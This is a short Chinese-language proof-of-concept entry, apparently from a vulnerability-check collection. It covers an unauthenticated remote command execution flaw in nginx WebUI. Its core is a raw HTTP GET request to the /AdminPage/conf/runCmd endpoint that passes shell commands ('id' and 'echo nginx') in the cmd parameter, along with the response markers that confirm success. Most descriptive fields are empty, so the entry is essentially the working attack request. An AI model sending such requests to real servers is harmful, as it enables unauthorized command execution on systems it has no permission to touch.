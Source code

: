 ﻿# nginx WebUI 前台远程命令执行漏洞

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /AdminPage/conf/runCmd?cmd=id%26%26echo%20nginx HTTP/1.1
Accept: */*
Connection: Keep-Alive
```

> 响应代码特征：200

> 响应内容特征：success

> 上传文件定位：

> 验证文件来源：nginx WebUI 前台远程命令执行漏洞.poc
